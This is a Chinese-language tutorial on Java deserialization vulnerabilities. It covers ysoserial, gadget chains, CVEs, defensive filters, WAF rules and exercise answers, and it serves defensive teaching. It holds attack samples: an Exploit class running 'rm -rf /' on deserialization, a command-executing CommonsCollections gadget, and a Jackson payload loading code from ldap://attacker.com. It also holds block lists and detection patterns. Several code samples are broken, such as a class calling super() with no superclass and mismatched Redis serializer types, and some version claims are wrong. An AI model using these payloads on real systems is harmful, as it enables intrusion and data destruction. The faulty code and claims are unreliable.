

2015年11月，一个名为 "ysoserial" 的工具在安全社区引起了轩然大波。这个由 Chris Frohoff 和 Gabriel Lawrence 开发的工具，利用了 Java 反序列化漏洞，可以在一秒内将一个普通的 Java 应用程序变成远程代码执行的敞篷车。

利用方式出奇简单：只需向目标应用发送一个精心构造的序列化对象。目标应用反序列化时，恶意代码就会自动执行。这个漏洞影响了数百万人使用的框架，包括 Apache Commons Collections、Spring Framework、JBoss、WebLogic。

## 一、反序列化漏洞的原理

### 1.1 Java 序列化基础

Java 序列化（Serialization）是将对象转换为字节流的过程，用于：
- 网络传输对象
- 持久化对象到磁盘
- 缓存对象

```java title="基本序列化代码"
public class User implements Serializable {
    private String username;
    private String password;
}

// 序列化对象
User user = new User();
user.setUsername("admin");
user.setPassword("secret");

ObjectOutputStream oos = new ObjectOutputStream(
    new FileOutputStream("user.ser"));
oos.writeObject(user);
oos.close();

// 反序列化对象
ObjectInputStream ois = new ObjectInputStream(
    new FileInputStream("user.ser"));
User restored = (User) ois.readObject();
```

### 1.2 漏洞的本质

反序列化的危险在于：**`readObject()` 方法在反序列化过程中会执行对象中的任何代码**。

```java title="攻击原理"
public class Exploit implements Serializable {
    
    // 当对象被反序列化时，这段代码会自动执行
    private void readObject(ObjectInputStream ois) 
            throws IOException, ClassNotFoundException {
        
        // 调用默认的 readObject
        ois.defaultReadObject();
        
        // 在这里执行任意代码！
        Runtime.getRuntime().exec("rm -rf /");
    }
}
```

### 1.3 攻击链



## 二、Gadget 链

### 2.1 什么是 Gadget

Gadget 是应用程序或第三方库中存在的代码片段，可以与 `ObjectInputStream.readObject()` 链接形成攻击链。

```
攻击者输入 → readObject() → Gadget1 → Gadget2 → ... → exec()
```

### 2.2 Apache Commons Collections Gadget

这是最著名的 Gadget 链，利用 Apache Commons Collections 库：

```java title="CommonsCollections1 Gadget 链简化版"
// gadgets.TransformedMap
// 1. ChainedTransformer 存储命令转换链
ChainedTransformer transformer = new ChainedTransformer(
    Arrays.asList(
        (Transformer) ConstantTransformer.getInstance("calc"),
        (Transformer) InvokerTransformer.getInstance("exec", 
            new Class[]{String.class}, 
            new Object[]{"open -a Calculator"})
    )
);

// 2. TransformedMap 包装 Map，调用 transformer
Map innerMap = new HashMap();
innerMap.put("foo", "bar");
Map transformedMap = TransformedMap.decorate(innerMap, null, transformer);

// 3. 触发反序列化时会执行命令
```

### 2.3 常见 Gadget 库

| 库 | Gadget 链 | 影响版本 |
|---|----------|---------|
| Apache Commons Collections | CommonsCollections1-7 | 3.1 - 3.2.2 |
| Spring Framework | Spring1/2/4 | 2.0 - 5.3.17 |
| Jackson | Jackson-databind | 部分版本 |
| Groovy | Groovy1 | 1.5 - 2.5.x |
| SnakeYAML | SnakeYAML | 所有版本 |
| Fastjson | Fastjson | < 1.2.83 |

## 三、真实案例

### 3.1 WebLogic 反序列化漏洞

> **CVE-2015-4852 - WebLogic T3 协议反序列化**
>
> 2015年，Oracle WebLogic Server 的 T3 协议处理中存在反序列化漏洞。攻击者可以通过 T3 协议发送恶意序列化对象，远程执行代码。
>
> 影响范围：WebLogic 10.3.6.0, 12.1.3.0 等

### 3.2 Jackson-databind 反序列化

```java title="Jackson 反序列化攻击"
// 攻击者发送这样的 JSON
{
    "@class": "com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName": "ldap://attacker.com/Exploit",
    "autoCommit": true
}

// Jackson 会自动反序列化这个对象
// 触发 JNDI 注入
```

## 四、防护措施

### 4.1 使用 ObjectInputFilter

Java 9 引入了 `ObjectInputFilter` 机制，可以精细控制允许反序列化的类：

```java title="ObjectInputFilter 防护"
public class SecureObjectInputStream extends ObjectInputStream {
    
    private static final ObjectInputFilter DEFAULT_FILTER;
    
    static {
        DEFAULT_FILTER = ObjectInputFilter.Config.createFilter(
            "com.example.domain.*;" +    // 允许自己域的类
            "java.util.ArrayList;" +     // 允许基本集合
            "java.util.HashMap;" +
            "java.lang.String;" +
            "java.lang.Integer;" +
            "java.lang.Long;" +
            "java.math.BigInteger;" +
            "!*"  // 拒绝其他所有类
        );
    }
    
    public SecureObjectInputStream(InputStream in) throws IOException {
        super(in);
    }
    
    @Override
    protected ObjectInputFilter getObjectInputFilter() {
        return DEFAULT_FILTER;
    }
}

// 使用示例
public User deserializeUser(byte[] data) throws Exception {
    try (SecureObjectInputStream ois = 
            new SecureObjectInputStream(new ByteArrayInputStream(data))) {
        return (User) ois.readObject();
    }
}
```

### 4.2 全局 ObjectInputFilter

```java title="设置 JVM 全局过滤器"
public class SerializationSecurityInitializer {
    
    @PostConstruct
    public void initGlobalFilter() {
        ObjectInputFilter.Config.setSerialFilter(
            ObjectInputFilter.FilterInfo::rejectUndecidedClass);
    }
}
```

```java title="使用 System Property"
# 启动参数
java -Djdk.serialFilter="com.example.**;java.**;!*" \
     -jar application.jar
```

### 4.3 Spring Boot 配置

```java title="Spring Boot 反序列化安全配置"
@Configuration
public class SerializationSecurityConfig {
    
    @Bean
    public ObjectMapper secureObjectMapper() {
        ObjectMapper mapper = new ObjectMapper();
        
        // 如果使用 Jackson 进行 JSON 反序列化
        // 禁用 PolymorphicTypeValidator 的不安全配置
        
        mapper.activateDefaultTyping(
            BasicPolymorphicTypeValidator.builder()
                .allowIfBaseType("com.example.domain.")
                .build(),
            ObjectMapper.DefaultTyping.NON_FINAL);
        
        return mapper;
    }
}
```

```yaml title="application.yml 配置"
spring:
  jackson:
    serialization:
      fail_on_empty_beans: false
    
# 自定义配置
serialization:
  allowed-classes:
    - com.example.domain.User
    - com.example.domain.Order
  blocked-classes:
    - com.sun.**
    - javax.xml.**
    - org.apache.commons.collections.**
```

### 4.4 禁止使用原生序列化

```java title="防止 RMI/JMX 中的反序列化"
@Configuration
public class RmiSecurityConfig {
    
    @Bean
    public RmiRegistryFactoryBean rmiRegistry() {
        RmiRegistryFactoryBean factory = new RmiRegistryFactoryBean();
        factory.setPort(1099);
        // Spring Boot 2.x 默认已禁用不安全的反序列化
        return factory;
    }
}
```

```java title="禁用 JNDI 注入"
// 系统属性
System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "false");
System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "false");
System.setProperty("java.rmi.server.useCodebaseOnly", "true");
```

## 五、修复方案

### 5.1 方案一：禁止反序列化

如果业务不需要序列化，考虑完全禁止：

```java title="完全不处理序列化对象"
@Controller
public class UserController {
    
    /**
     * 永远不要接收序列化的 Java 对象
     * 使用 JSON 或其他安全格式
     */
    @PostMapping("/user")
    public ResponseEntity<UserResponse> createUser(
            @RequestBody UserRequest request) {
        // 使用 DTO 而非序列化对象
        User user = userService.create(request);
        return ResponseEntity.ok(toResponse(user));
    }
}
```

### 5.2 方案二：使用替代方案

```java title="使用 JSON 而非 Java 序列化"
// 不要使用
ObjectInputStream.readObject()

// 改用 JSON
ObjectMapper mapper = new ObjectMapper();
User user = mapper.readValue(jsonString, User.class);

// 或使用 protobuf
ProtobufMapper mapper = new ProtobufMapper();
User user = mapper.deserialize(bytes);
```

### 5.3 方案三：签名验证

```java title="反序列化对象签名验证"
public class SignedObjectInputStream {
    
    private final Key secretKey;
    
    public SignedObjectInputStream(InputStream in, Key secretKey) 
            throws Exception {
        super(in);
        this.secretKey = secretKey;
    }
    
    @Override
    protected ObjectInputStream getObjectInputStream() {
        return new SignedObjectInput(this);
    }
    
    @Override
    protected Object readObjectOverride() 
            throws IOException, ClassNotFoundException {
        // 1. 先读取签名
        byte[] signature = readSignature();
        
        // 2. 读取类名验证
        String className = readClassName();
        validateClassName(className);
        
        // 3. 读取对象
        Object obj = super.readObjectOverride();
        
        // 4. 验证签名
        if (!verifySignature(obj, signature)) {
            throw new SecurityException("Invalid signature");
        }
        
        return obj;
    }
}
```

### 5.4 通用修复清单

```java title="安全反序列化模板"
public class SafeDeserializer {
    
    // 允许的类白名单
    private static final Set<String> ALLOWED_CLASSES = Set.of(
        "com.example.domain.User",
        "com.example.domain.Order",
        "com.example.domain.Product"
    );
    
    // 禁止的包前缀
    private static final String[] BLOCKED_PACKAGES = {
        "sun.",
        "com.sun.",
        "javax.",
        "org.apache.commons.collections.",
        "org.springframework.",
        "java.rmi."
    };
    
    public static Object deserialize(byte[] data) throws Exception {
        ByteArrayInputStream bais = new ByteArrayInputStream(data);
        
        ObjectInputStream ois = new ObjectInputStream(bais) {
            @Override
            protected Class<?> resolveClass(ObjectStreamClass desc) 
                    throws IOException, ClassNotFoundException {
                
                String className = desc.getName();
                
                // 检查是否在白名单中
                if (!ALLOWED_CLASSES.contains(className)) {
                    throw new SecurityException(
                        "Class not allowed: " + className);
                }
                
                // 检查是否在黑名单中
                for (String blocked : BLOCKED_PACKAGES) {
                    if (className.startsWith(blocked)) {
                        throw new SecurityException(
                            "Blocked class: " + className);
                    }
                }
                
                return super.resolveClass(desc);
            }
        };
        
        return ois.readObject();
    }
}
```

## 六、检测与监控

### 6.1 运行时检测

```java title="反序列化监控"
public class DeserializationMonitor {
    
    private static final Logger logger = LoggerFactory.getLogger(
        "DeserializationMonitor");
    
    public static void monitorDeserialization(String className) {
        // 记录反序列化事件
        logger.warn("Deserializing class: {}", className);
        
        // 检查是否可疑
        if (isSuspiciousClass(className)) {
            alertSecurityTeam(className);
        }
    }
    
    private static boolean isSuspiciousClass(String className) {
        // 检测常见的 gadget 类
        return className.contains("CommonsCollections") ||
               className.contains("ROME") ||
               className.contains("Springtro") ||
               className.contains("Jndi") ||
               className.contains("BeanShell");
    }
}
```

### 6.2 WAF 规则

```yaml title="WAF 反序列化检测"
rules:
  # 检测 Java 序列化头部
  - name: "Java Serialization Header"
    condition:
      content: "ac ed 00 05"  # Java 序列化魔数
    action: block
    confidence: high
    
  # 检测 ysoserial 特征
  - name: "ysoserial Pattern"
    condition:
      content: "aced0005"  # ysoserial payload 头
    action: block
    confidence: high
```

:::tip 关键洞察
反序列化漏洞的可怕之处在于：它不需要任何代码缺陷，只需要「按设计使用序列化」。防护核心是：
1. 尽量避免使用原生 Java 序列化
2. 使用 ObjectInputFilter 限制可反序列化的类
3. 对反序列化的数据进行签名验证
4. 监控异常的反序列化行为
:::

## 思考题

**问题 1**：某公司使用 Apache Commons Collections 库处理集合操作，并使用 Redis 进行分布式缓存（使用 Redis 的 Java 客户端）。请分析这种架构下反序列化漏洞的攻击向量，以及如何进行防护。

<details>
<summary>参考答案</summary>

**攻击向量分析**：

**向量 1：Redis 反序列化**
- 如果 Redis 存储了 Java 序列化对象
- 读取时使用 `readObject()` 反序列化
- 攻击者可以直接在 Redis 中写入恶意对象

**向量 2：网络传输**
- 如果分布式服务之间使用 Java 序列化传输对象
- 攻击者可以中间人攻击篡改序列化数据

**向量 3：缓存投毒**
- 攻击者获取 Redis 写权限
- 写入恶意序列化对象
- 下次读取时触发 RCE

**防护方案**：

**1. 禁用 Redis 的 Java 序列化**
```java
@Configuration
public class RedisConfig {
    
    @Bean
    public RedisTemplate<String, Object> redisTemplate(
            RedisConnectionFactory factory) {
        
        RedisTemplate<String, Object> template = new RedisTemplate<>();
        template.setConnectionFactory(factory);
        
        // 使用 JSON 序列化器替代 Java 序列化
        Jackson2JsonRedisSerializer<Object> serializer = 
            new Jackson2JsonRedisSerializer<>(Object.class);
        
        template.setValueSerializer(serializer);
        template.setHashValueSerializer(serializer);
        
        return template;
    }
}
```

**2. 限制可反序列化的类**
```java
// 如果必须使用 Java 序列化
template.setValueSerializer(new SecureObjectInputStream(
    new ByteArrayInputStream(),
    ObjectInputFilter.Config.createFilter(
        "com.example.domain.*;" +
        "java.util.ArrayList;" +
        "!*"  // 拒绝其他所有类
    )
));
```

**3. 网络层安全**
- Redis 使用 AUTH 认证
- Redis 绑定到内网 IP
- 使用 TLS 连接 Redis

**4. 应用层隔离**
- Redis 账号不要有管理权限
- 限制 Redis 实例的内存使用
- 监控异常的 Redis 访问
</details>

**问题 2**：某遗留系统使用了大量 RMI（远程方法调用）进行服务间通信，这些 RMI 调用依赖 Java 原生序列化。请分析这种场景下的风险，以及如何制定一个安全的迁移计划。

<details>
<summary>参考答案</summary>

**风险分析**：

**已知 RMI 漏洞**：
- CVE-2017-3241：WebLogic RMI 反序列化
- CVE-2018-2628：Oracle WebLogic Server RMI
- CVE-2018-2893：WebLogic RMI T3

**风险场景**：
1. RMI Registry 被攻击者访问
2. 攻击者向 RMI 服务发送恶意序列化对象
3. 利用 Gadget 链执行任意代码

**迁移方案**：

**阶段 1：评估与准备（1-2个月）**

1. **清点 RMI 服务**
```bash
# 扫描代码中的 RMI 使用
grep -r "LocateRegistry" --include="*.java" .
grep -r "UnicastRemoteObject" --include="*.java" .
```

2. **识别所有序列化端点**
- RMI 调用涉及的接口
- 使用 `Object` 作为参数的接口
- 返回 `Serializable` 的接口

**阶段 2：防护措施（并行进行）**

1. **应用层防护**
```java
// 设置 JVM 全局过滤器
java -Djdk.serialFilter="java.**;javax.**;!*" application.jar
```

2. **网络层防护**
- 限制 RMI 端口访问
- 只允许受信任的 IP 访问 RMI Registry

**阶段 3：逐步迁移（3-6个月）**

1. **选择替代方案**

| 方案 | 优点 | 缺点 |
|------|------|------|
| gRPC | 高性能、跨语言 | 需要重构 |
| REST + JSON | 简单、成熟 | 性能稍低 |
| Thrift | 高效 | 需要 IDL |
| Spring Cloud Feign | 兼容性好 | 仍需迁移 |

2. **逐步替换策略**
- 新增接口使用新协议
- 旧接口逐步改造
- 双轨运行，过渡期支持

**阶段 4：完全废弃 RMI（长期）**

1. **验证无 RMI 流量**
2. **关闭 RMI 端口**
3. **清理相关代码**
4. **监控确保无遗漏**

**关键成功因素**：
- 完整的测试覆盖
- 灰度发布策略
- 回滚预案
- 监控告警
</details>
